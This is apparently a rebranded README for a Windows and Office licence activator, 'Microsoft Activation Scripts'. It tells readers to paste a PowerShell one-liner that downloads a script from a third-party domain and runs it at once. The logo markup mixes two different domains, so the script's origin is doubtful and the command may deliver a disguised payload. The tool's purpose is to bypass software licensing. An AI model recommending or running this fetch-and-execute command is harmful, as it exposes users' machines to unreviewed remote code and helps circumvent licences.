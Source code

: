 <p align="center"><img src="[https://massgrave.dev/images/logo_small.png](https://kc.technology/KC-logo-1.png)" alt="MAS KC Logo"></p>

<h1 align="center">Microsoft  Activation  Scripts (MAS)</h1>

<p align="center">A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.</p>
<hr>

## Download / How to use it?

### Method 1 - PowerShell (Recommended)

-   Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
-   Copy-paste the below code and press enter
    ```
    irm https://activation.n4technology.com/activation.ps1 | iex
    ```
-   You will see the activation options. Follow the on-screen instructions.
-   That's all.



---

<p align="center">Made with Love ❤️ thanks mas</p>
